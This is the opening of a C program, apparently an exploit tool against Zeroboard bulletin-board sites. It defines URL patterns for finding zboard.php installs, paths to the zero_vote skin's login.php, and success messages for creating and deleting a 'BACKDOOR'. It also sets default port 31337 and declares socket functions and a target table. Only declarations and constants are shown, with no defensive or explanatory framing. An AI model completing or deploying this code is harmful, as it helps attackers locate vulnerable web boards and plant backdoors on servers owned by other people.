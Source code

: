 #define VENDOR "nzeo.com"

// search rule
#define FD_RULE_0 "/zboard/zboard.php"
#define FD_RULE_1 "/zb41/zboard.php"
#define FD_RULE_2 "/bbs/zboard.php"
#define FD_RULE_3 "/zb/zboard.php"
#define FD_RULE_4 "/zb40/zboard.php"
#define FD_RULE_5 "/board/zboard.php"
#define FD_RULE_6 "zboard.php"
#define FD_RULE_7 "zboard.ph"

// pattern
#define FD_PATH_0 "/zboard/skin/zero_vote/login.php"
#define FD_PATH_1 "/zb41/skin/zero_vote/login.php"
#define FD_PATH_2 "/bbs/skin/zero_vote/login.php"
#define FD_PATH_3 "/zb/skin/zero_vote/login.php"
#define FD_PATH_4 "/zb40/skin/zero_vote/login.php"
#define FD_PATH_5 "/board/skin/zero_vote/login.php"
#define FD_PATH_6 "/skin/zero_vote/login.php"

#define RESULT_OK "200 OK"
#define MAKE_STR1 "BACKDOOR MAKE SUCCESS"
#define MAKE_STR2 "ZBCODE MAKE SUCCESS"
#define DELT_STR1 "BACKDOOR DELETE SUCCESS"
#define DELT_STR2 "ZBCODE DELETE SUCCESS"

#define DEF_PORT (31337)
#define CONN_PORT (80)
#define DEF_TIME (20)

int set_sock(char *sc_gt_host,int port,int type);
void re_connt_lm(int st_sock_va,int type);
int proc_r();
void t_kill();
void sf_exit();
int g_ip(char *ip);
int make_cmd_file();
int filter_f(char *test_bf,int tnum);

int sock;

struct tg_rl
{
 int r_num;
 char *r_str;
 char *url_str;
};

#define TARGET_NUM (7)
#define SEARCH_NUM (4)

struct tg_rl __tg_rule_va[]=
{
 {0,FD_RULE_0,FD_PATH_0},
 {1,FD_RULE_1,FD_PATH_1},
 {2,FD_RULE_2,FD_PATH_2},
 {3,FD_RULE_3,FD_PATH_3},
 {4,FD_RULE_4,FD_PATH_4},
 {5,FD_RULE_5,FD_PATH_5},
 {6,FD_RULE_6,FD_PATH_6},
 {7,FD_RULE_7,FD_PATH_6},
 {8,NULL,NULL}
};
